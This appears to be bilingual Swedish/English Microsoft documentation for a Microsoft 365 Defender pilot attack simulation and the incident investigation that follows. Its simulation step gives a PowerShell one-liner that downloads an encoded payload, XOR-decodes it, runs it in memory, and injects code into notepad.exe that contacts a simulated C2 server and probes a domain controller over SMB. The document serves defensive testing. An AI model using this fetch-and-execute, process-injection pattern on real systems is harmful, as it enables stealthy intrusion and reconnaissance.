




# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="e6d23-104">Köra din Microsoft 365 Defender attack simuleringar</span><span class="sxs-lookup"><span data-stu-id="e6d23-104">Run your Microsoft 365 Defender attack simulations</span></span>

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="e6d23-105">[](m365d-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="e6d23-105">[](m365d-pilot-plan.md)</span></span><br/>[<span data-ttu-id="e6d23-106">Planering</span><span class="sxs-lookup"><span data-stu-id="e6d23-106">Planning</span></span>](m365d-pilot-plan.md)|<span data-ttu-id="e6d23-107">[](prepare-m365d-eval.md)</span><span class="sxs-lookup"><span data-stu-id="e6d23-107">[](prepare-m365d-eval.md)</span></span><br/>[<span data-ttu-id="e6d23-108">Förberedelse</span><span class="sxs-lookup"><span data-stu-id="e6d23-108">Preparation</span></span>](prepare-m365d-eval.md)|<br/><span data-ttu-id="e6d23-110">Simulera attack</span><span class="sxs-lookup"><span data-stu-id="e6d23-110">Simulate attack</span></span>|<span data-ttu-id="e6d23-111">[](m365d-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="e6d23-111">[](m365d-pilot-close.md)</span></span><br/>[<span data-ttu-id="e6d23-112">Stäng och sammanfatta</span><span class="sxs-lookup"><span data-stu-id="e6d23-112">Close and summarize</span></span>](m365d-pilot-close.md)|
|--|--|--|--|
|||<span data-ttu-id="e6d23-113">*Du är här!*</span><span class="sxs-lookup"><span data-stu-id="e6d23-113">*You are here!*</span></span>||

<span data-ttu-id="e6d23-114">Du befinner dig för närvarande i simuleringsfasen av attacken.</span><span class="sxs-lookup"><span data-stu-id="e6d23-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="e6d23-115">När pilotmiljön har förberetts är det dags att testa Microsoft 365 Defender och automatiserad undersökning och åtgärder.</span><span class="sxs-lookup"><span data-stu-id="e6d23-115">After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="e6d23-116">Vi hjälper dig att simulera en avancerad attack som använder avancerade tekniker för att dölja det.</span><span class="sxs-lookup"><span data-stu-id="e6d23-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="e6d23-117">Attacken räknar upp öppna SMB-sessioner (Server Message Block) på domänkontrollanter och hämtar de senaste IP-adresserna för användarnas enheter.</span><span class="sxs-lookup"><span data-stu-id="e6d23-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="e6d23-118">Den här kategorin av attacker inkluderar vanligtvis inte filer som släppts på offerts enhet – de förekommer endast i minnet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-118">This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory.</span></span> <span data-ttu-id="e6d23-119">De "boar av landet" genom att använda befintliga system- och administrationsverktyg och mata in kod i systemprocesser för att dölja körningen, ett sådant beteende gör att de kan avkoda identifieringen och finnas kvar på enheten.</span><span class="sxs-lookup"><span data-stu-id="e6d23-119">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="e6d23-120">I den här simuleringen börjar vårt exempelscenario med ett PowerShell-skript.</span><span class="sxs-lookup"><span data-stu-id="e6d23-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="e6d23-121">En användare kan bli lurad att köra ett skript.</span><span class="sxs-lookup"><span data-stu-id="e6d23-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="e6d23-122">Eller så kan skriptet köras från en fjärranslutning till en annan dator från en tidigare smittad enhet – då försöker attackeraren flytta sig fritt i nätverket.</span><span class="sxs-lookup"><span data-stu-id="e6d23-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="e6d23-123">Det kan vara svårt att identifiera de här skripten eftersom administratörer också ofta kör skript på distans för att utföra olika administrativa aktiviteter.</span><span class="sxs-lookup"><span data-stu-id="e6d23-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>



<span data-ttu-id="e6d23-125">Under simuleringen inkodar attacken skalkod i en till synes process.</span><span class="sxs-lookup"><span data-stu-id="e6d23-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="e6d23-126">För scenariot krävs att du använder notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="e6d23-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="e6d23-127">Vi valde den här processen för simuleringen, men attacker är mer troliga att de är mål för en långvariga systemprocess, till exempel svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="e6d23-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="e6d23-128">Shellcode-koden fortsätter sedan att kontakta attackerens kommando- och kontrollserver (C2) för att få instruktioner om hur du kan fortsätta.</span><span class="sxs-lookup"><span data-stu-id="e6d23-128">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="e6d23-129">Skriptet försöker köra reconnaissance-frågor mot domänkontrollanten (DC).</span><span class="sxs-lookup"><span data-stu-id="e6d23-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="e6d23-130">Med hjälp av reconnaissance kan en attackerare få information om den senaste användarinloggningsinformationen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="e6d23-131">När attackerarna har den här informationen kan de flytta sig i nätverket för att komma till ett visst känsligt konto</span><span class="sxs-lookup"><span data-stu-id="e6d23-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="e6d23-132">För bästa resultat följer du attackberäkningsanvisningarna så nära som möjligt.</span><span class="sxs-lookup"><span data-stu-id="e6d23-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

## <a name="simulation-environment-requirements"></a><span data-ttu-id="e6d23-133">Simuleringsmiljökrav</span><span class="sxs-lookup"><span data-stu-id="e6d23-133">Simulation environment requirements</span></span>

<span data-ttu-id="e6d23-134">Eftersom du redan har konfigurerat pilotmiljön under förberedelsefasen bör du kontrollera att du har två enheter för det här scenariot: en testenhet och en domänkontrollant.</span><span class="sxs-lookup"><span data-stu-id="e6d23-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1. <span data-ttu-id="e6d23-135">Kontrollera att klientorganisationen [har aktiverat Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span><span class="sxs-lookup"><span data-stu-id="e6d23-135">Verify your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>

2. <span data-ttu-id="e6d23-136">Kontrollera konfigurationen av testdomänkontrollanten:</span><span class="sxs-lookup"><span data-stu-id="e6d23-136">Verify your test domain controller configuration:</span></span>

   - <span data-ttu-id="e6d23-137">Enheten körs med Windows Server 2008 R2 eller en senare version.</span><span class="sxs-lookup"><span data-stu-id="e6d23-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="e6d23-138">Testdomänkontrollanten till [Microsoft Defender för identitet och](/azure/security-center/security-center-wdatp) aktivera [fjärrhantering](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span><span class="sxs-lookup"><span data-stu-id="e6d23-138">The test domain controller to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and enable [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="e6d23-139">Kontrollera att [microsoft Defender för identitet och Microsoft Cloud App Security har](/cloud-app-security/mdi-integration) aktiverats.</span><span class="sxs-lookup"><span data-stu-id="e6d23-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) have been enabled.</span></span>
   - <span data-ttu-id="e6d23-140">En testanvändare skapas på din domän – ingen administratörsbehörighet krävs.</span><span class="sxs-lookup"><span data-stu-id="e6d23-140">A test user is created on your domain – no admin permissions needed.</span></span>

3. <span data-ttu-id="e6d23-141">Verifiera testenhetskonfigurationen:</span><span class="sxs-lookup"><span data-stu-id="e6d23-141">Verify test device configuration:</span></span>

   1. <span data-ttu-id="e6d23-142">Enheten körs med Windows 10 version 1903 eller senare.</span><span class="sxs-lookup"><span data-stu-id="e6d23-142">Device runs with Windows 10 version 1903 or a later version.</span></span>

   1. <span data-ttu-id="e6d23-143">Testenheten är ansluten till testdomänen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="e6d23-144">[Aktivera Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="e6d23-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="e6d23-145">Om du har problem med att aktivera Windows Defender Antivirus kan du gå till den här [felsökningsavsnittet](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="e6d23-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="e6d23-146">Kontrollera att testenheten är [onboarded till Microsoft Defender för Endpoint).](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="e6d23-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="e6d23-147">Om du använder en befintlig klientorganisation och implementerar enhetsgrupper skapar du en dedikerad enhetsgrupp för testenheten och pushar den till den översta nivån i konfigurations-UX.</span><span class="sxs-lookup"><span data-stu-id="e6d23-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="e6d23-148">Simulera attackscenariot</span><span class="sxs-lookup"><span data-stu-id="e6d23-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="e6d23-149">Så här kör du simuleringen av attackscenariot:</span><span class="sxs-lookup"><span data-stu-id="e6d23-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="e6d23-150">Logga in på testenheten med testanvändarkontot.</span><span class="sxs-lookup"><span data-stu-id="e6d23-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="e6d23-151">Öppna Windows PowerShell testenhet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="e6d23-152">Kopiera följande simuleringsskript:</span><span class="sxs-lookup"><span data-stu-id="e6d23-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="e6d23-153">Om du öppnar dokumentet i en webbläsare kan du stöta på problem med att kopiera hela texten utan att förlora vissa tecken eller införa extra radbrytningar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="e6d23-154">Hämta dokumentet och öppna det i Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="e6d23-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="e6d23-155">När du uppmanas till det klistrar du in och kör det kopierade skriptet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="e6d23-156">Om du kör PowerShell med fjärrskrivbordsprotokoll (RDP) använder du kommandot Skriv urklippstext i RDP-klienten eftersom **metoden CTRL-V** för snabbtangent eller högerklicks-inklistring kanske inte fungerar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="e6d23-157">Senaste versioner av PowerShell accepterar inte heller den metoden ibland. Du kan behöva kopiera till Anteckningar i minnet först, kopiera den i den virtuella datorn och sedan klistra in den i PowerShell.</span><span class="sxs-lookup"><span data-stu-id="e6d23-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="e6d23-158">Några sekunder senare <i>notepad.exe</i> den.</span><span class="sxs-lookup"><span data-stu-id="e6d23-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="e6d23-159">En simulerad attackkod matas in i notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="e6d23-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="e6d23-160">Låt den automatiskt genererade Anteckningar instansen vara öppen för hela scenariot.</span><span class="sxs-lookup"><span data-stu-id="e6d23-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="e6d23-161">Den simulerade attackkoden försöker kommunicera till en extern IP-adress (som återspelar C2-servern) och försöker sedan förena domänkontrollanten via SMB.</span><span class="sxs-lookup"><span data-stu-id="e6d23-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="e6d23-162">När skriptet har slutförts visas ett meddelande på PowerShell-konsolen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="e6d23-163">Om du vill se hur funktionen Automatiserat incidenter och svar fungerar i praktiken behåller du notepad.exe processen öppen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="e6d23-164">Automatiserad incident och svar stoppar processen Anteckningar svar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>

## <a name="investigate-an-incident"></a><span data-ttu-id="e6d23-165">Undersöka en händelse</span><span class="sxs-lookup"><span data-stu-id="e6d23-165">Investigate an incident</span></span>

> [!NOTE]
> <span data-ttu-id="e6d23-166">Innan vi går igenom den här simuleringen tittar du på följande video för att se hur incidenthantering hjälper dig att samla relaterade aviseringar som en del av undersökningsprocessen, var du kan hitta dem i portalen och hur det kan hjälpa dig i dina säkerhetsåtgärder:</span><span class="sxs-lookup"><span data-stu-id="e6d23-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="e6d23-167">När du växlar till SOC-analytiker kan du börja undersöka attacken i Microsoft 365 Säkerhetscenter-portalen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span>

1. <span data-ttu-id="e6d23-168">Öppna [incidentkön Microsoft 365 Säkerhetscenter-portalen](https://security.microsoft.com/incidents) från valfri enhet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2. <span data-ttu-id="e6d23-169">Gå till **Incidenter** på menyn.</span><span class="sxs-lookup"><span data-stu-id="e6d23-169">Navigate to **Incidents** from the menu.</span></span>

    

3. <span data-ttu-id="e6d23-171">Den nya incidenten för den simulerade attacken visas i incidentkön.</span><span class="sxs-lookup"><span data-stu-id="e6d23-171">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="e6d23-173">Undersök attacken som en enda incident</span><span class="sxs-lookup"><span data-stu-id="e6d23-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="e6d23-174">Microsoft 365 Defender korrelerar analyser och aggregerar alla relaterade aviseringar och undersökningar från olika produkter till en enda incidentenhet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="e6d23-175">På så sätt Microsoft 365 Defender en bredare attackhistoria, så att SOC-analytiker kan förstå och reagera på komplexa hot.</span><span class="sxs-lookup"><span data-stu-id="e6d23-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="e6d23-176">Aviseringarna som genererades under den här simuleringen är associerade med samma hot och därför aggregeras automatiskt som en enda incident.</span><span class="sxs-lookup"><span data-stu-id="e6d23-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="e6d23-177">Så här visar du händelsen:</span><span class="sxs-lookup"><span data-stu-id="e6d23-177">To view the incident:</span></span>

1. <span data-ttu-id="e6d23-178">Gå till **kön Incidenter.**</span><span class="sxs-lookup"><span data-stu-id="e6d23-178">Navigate to the **Incidents** queue.</span></span>

   

2. <span data-ttu-id="e6d23-180">Markera det senaste objektet genom att klicka på cirkeln till vänster om incidentnamnet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="e6d23-181">På en sidopanel visas ytterligare information om händelsen, inklusive alla relaterade aviseringar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="e6d23-182">Varje incident har ett unikt namn som beskriver den baserat på attributen för de aviseringar som den inkluderar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   

   <span data-ttu-id="e6d23-184">Aviseringarna som visas på instrumentpanelen kan filtreras baserat på tjänstresurser: Microsoft Defender för identitet, Microsoft Cloud App Security, Microsoft Defender för slutpunkt, Microsoft 365 Defender och Microsoft Defender för Office 365.</span><span class="sxs-lookup"><span data-stu-id="e6d23-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="e6d23-185">Välj **Öppna incidentsida** om du vill ha mer information om incidenten.</span><span class="sxs-lookup"><span data-stu-id="e6d23-185">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="e6d23-186">På sidan **Incident** ser du alla aviseringar och information om händelsen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="e6d23-187">Informationen omfattar de enheter och tillgångar som ingår i aviseringen, varningens identifieringskälla (Microsoft Defender för identitet, Identifiering och åtgärd på slutpunkt) och orsaken till att de länkades ihop.</span><span class="sxs-lookup"><span data-stu-id="e6d23-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="e6d23-188">När du granskar incidentvarningslistan visas attackens förlopp.</span><span class="sxs-lookup"><span data-stu-id="e6d23-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="e6d23-189">Från den här vyn kan du se och undersöka enskilda aviseringar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-189">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="e6d23-190">Du kan också klicka **på Hantera** incident i den högra menyn för att tagga händelsen, tilldela den till dig själv och lägga till kommentarer.</span><span class="sxs-lookup"><span data-stu-id="e6d23-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

   

   

### <a name="review-generated-alerts"></a><span data-ttu-id="e6d23-193">Granska genererade aviseringar</span><span class="sxs-lookup"><span data-stu-id="e6d23-193">Review generated alerts</span></span>

<span data-ttu-id="e6d23-194">Vi tittar på några av de aviseringar som genererades vid en simulerad attack.</span><span class="sxs-lookup"><span data-stu-id="e6d23-194">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="e6d23-195">Vi går bara igenom några få av de aviseringar som genererats under den simulerade attacken.</span><span class="sxs-lookup"><span data-stu-id="e6d23-195">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="e6d23-196">Beroende på vilken version av Windows och vilka Microsoft 365 Defender-produkter som körs på testenheten kan du se fler aviseringar som visas i en något annan ordning.</span><span class="sxs-lookup"><span data-stu-id="e6d23-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>



#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="e6d23-198">Avisering: Observerad processinjicering av misstänkt process (källa: Microsoft Defender för Identifiering och åtgärd på slutpunkt)</span><span class="sxs-lookup"><span data-stu-id="e6d23-198">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="e6d23-199">Avancerade attacker använder avancerade och avancerade metoder för att finnas kvar i minnet och dölja för identifieringsverktyg.</span><span class="sxs-lookup"><span data-stu-id="e6d23-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="e6d23-200">En vanlig teknik är att arbeta från en betrodd systemprocess i stället för en skadlig körbar fil, vilket gör det svårt att identifiera verktyg och säkerhetsåtgärder för att upptäcka den skadliga koden.</span><span class="sxs-lookup"><span data-stu-id="e6d23-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="e6d23-201">För att SOC-analytiker ska kunna fånga de här avancerade attackerna tillhandahåller djupminnessensorer i Microsoft Defender för Endpoint vår molntjänst med god insyn i en mängd olika igenkänningstekniker med olika igenkänningstekniker.</span><span class="sxs-lookup"><span data-stu-id="e6d23-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="e6d23-202">På följande bild visas hur Defender för Slutpunkt upptäckte och avisering om försök att mata in kod för <i> attnotepad.exe</i>.</span><span class="sxs-lookup"><span data-stu-id="e6d23-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="e6d23-204">Varning: Oväntat beteende som observerats av en process som körs utan kommandoradsargument (Källa: Microsoft Defender för slutpunkt Identifiering och åtgärd på slutpunkt)</span><span class="sxs-lookup"><span data-stu-id="e6d23-204">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="e6d23-205">Microsoft Defender för slutpunktsidentifiering riktar ofta in sig på det vanligaste attributet för en attackteknik.</span><span class="sxs-lookup"><span data-stu-id="e6d23-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="e6d23-206">Den här metoden säkerställer att varaktigheten ökar för att attacker ska kunna växla till nyare taktiker.</span><span class="sxs-lookup"><span data-stu-id="e6d23-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="e6d23-207">Vi använder storskaliga utbildningsalgoritmer för att etablera normalt beteende i vanliga processer i en organisation och globalt och se upp när dessa processer visar avvikande beteenden.</span><span class="sxs-lookup"><span data-stu-id="e6d23-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="e6d23-208">Dessa avvikande beteenden anger ofta att onenelig kod infördes och körs i en annars betrodd process.</span><span class="sxs-lookup"><span data-stu-id="e6d23-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="e6d23-209">För det här scenariot har <i> processennotepad.exe</i> onormalt beteende, vilket innefattar kommunikation med en extern plats.</span><span class="sxs-lookup"><span data-stu-id="e6d23-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="e6d23-210">Det här resultatet är oberoende av den specifika metod som används för att introducera och köra skadlig kod.</span><span class="sxs-lookup"><span data-stu-id="e6d23-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="e6d23-211">Eftersom den här aviseringen är baserad på maskininlärningsmodeller som kräver ytterligare backend-bearbetning kan det ta lite tid innan den här aviseringen visas i portalen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

